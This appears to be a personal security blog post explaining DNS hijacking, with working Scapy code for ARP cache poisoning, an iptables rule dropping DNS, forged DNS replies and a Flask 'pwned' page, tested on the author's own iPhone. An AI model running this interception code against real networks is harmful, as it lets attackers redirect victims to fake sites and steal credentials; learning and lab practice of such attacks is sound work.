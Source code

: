 ```yaml
---
title: "Performing DNS Hijacking to Redirect Users to a Fake Website"
date: 2019-08-22
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - DNS Hijacking
  - ARP Spoofing
  - Scapy
---
```


# Introduction
In my previous post, we had a look at poisoning ARP caches which allowed us to intercept messages
being sent to and from the target. In this post, we utilize that to intercept all DNS requests of the
target and provide a spoofed reply pointing to a web server running on our machine.

# DNS
Everytime a user types in an URL into the browser or any web client, the client resolves or "translates" the URL into an IP address. It does this to identify where to send the corresponding HTTP request. To translate the URL into an IP address, the following steps take place:

1. The browser first queries the OS with the request asking if it knows the IP address,
2. the OS checks it's local cache and the HOSTS file which contains mappings between URLs and IP address,
3. if the OS does not find any mappings, it will query the local DNS resolver which is usually provided by your ISP,
4. the DNS resolver will also check if it has an answer. If it doesn't, it will recursivelly query
the nameservers till it receives a response from the nameserver responsible for the domain.  

Once the IP address is retreived, the client sends the HTTP request and displays the page returned.

# DNS Spoofing
Since we need the target's traffic to pass through our system, we need to poison both the router's and target's ARP cache. This can be done in the following manner.

```python
# Poison router's cache (Scapy will automatically fill in the ethernet frame with our MAC)
send(ARP(op=2, psrc=g_target_ip, pdst=g_router_ip, hwdst=router_mac), verbose=0)

# Poison target's cache
send(ARP(op=2, psrc=g_router_ip, pdst=g_target_ip, hwdst=target_mac), verbose=0)

# Sleep to prevent flooding
time.sleep(2)
```

Once we poison the ARP caches, the target's traffic passes through our system. Now we can control the traffic, i.e., we can decide on what to forward and what not to. By stopping all DNS queries from the target, we can then send a spoofed DNS response pointing to our system. This will cause the target to send an HTTP request to our machine. We can stop forwarding all DNS messages in the following manner.

```python
print("Enabling IP forwarding")
# Check to see if we are on linux
if (platform.system() == "Linux"):
	# Enable IP forwarding
	ipf = open('/proc/sys/net/ipv4/ip_forward', 'r+')
	ipf_read = ipf.read()
	if (ipf_read != '1\n'):
		ipf.write('1\n')
	ipf.close()

	# Disable DNS Query forwarding
	firewall = "iptables -A FORWARD -p UDP --dport 53 -j DROP"
	Popen([firewall], shell=True, stdout=PIPE)
```

Now, since all the DNS messages are dropped, we need to provide the target with a spoofed DNS response. Failing to do so can lead to DOS since the target will not be able to resolve the URL to any IP address. We can send a spoofed DNS answer in the following manner.

```python
if (pkt[IP].src == g_target_ip and
		pkt.haslayer(DNS) and
		pkt[DNS].qr == 0 and				# DNS Query
		pkt[DNS].opcode == 0 and			# DNS Standard Query
		pkt[DNS].ancount == 0				# Answer Count
		):

	print("Sending spoofed DNS response")

	if (pkt.haslayer(IPv6)):
		ip_layer = IPv6(src=pkt[IPv6].dst, dst=pkt[IPv6].src)
	else:
		ip_layer = IP(src=pkt[IP].dst, dst=pkt[IP].src)

	# Create the spoofed DNS response (returning back our IP as the answer instead of the endpoint)
	dns_resp =  ip_layer/ \
				UDP(
					dport=pkt[UDP].sport,
					sport=53
					)/ \
				DNS(
					id=pkt[DNS].id,					# Same as query
					ancount=1,						# Number of answers
					qr=1,							# DNS Response
					ra=1,							# Recursion available
					qd=(pkt.getlayer(DNS)).qd,		# Query Data
					an=DNSRR(
						rrname=pkt[DNSQR].qname,	# Queried host name
						rdata=g_server_ip,	# IP address of queried host name
						ttl = 10
						)
					)

	# Send the spoofed DNS response
	print(dns_resp.show())
	send(dns_resp, verbose=0)
	print(f"Resolved DNS request for {pkt[DNS].qd.qname} by {g_server_ip}")
```

In the above code, *pkt* holds the DNS request intercepted by our machine. Using it, we send a DNS response saying that the URL maps to our IP address. Now since the target will start sending HTTP/HTTPS request to our machine, we need to respond to those with our webpage. A simple demonstration can be shown using Flask in the following manner.

```python
from flask import Flask

app = Flask(__name__)

@app.route('/')
def spoofed_page():
    return '<h1 align="center">You have been pwned!</h1>'

@app.route('/<path:dummy>')
def spoofed_dir(dummy):
	return '<h1 align="center">You have been pwned!</h1>'

if __name__ == '__main__':
	app.run(host='192.168.137.1', ssl_context='adhoc', port=443)
```
the host argument must be set to the IP address on which the webserver is being run on. Now any page accessed by the target will be return the html given above.

# Results
I have run the dns-hijacker on a Raspberry PI 3B+ with the target as my iPhone. By running the scripts in the following manner

![dns-hijacker](../../assets/videos/dns-hijacker.gif)

Once the DNS hijacker and the web server are running, sending a request from my iPhone results in the following.

![pwned](../../assets/videos/pwned.gif)

We can see that a GET request to `victoria.dev` was successfully redirected to our webpage. yaaa.
The full script is available on my github ![page](https://github.com/venkat-abhi/dns-redirector).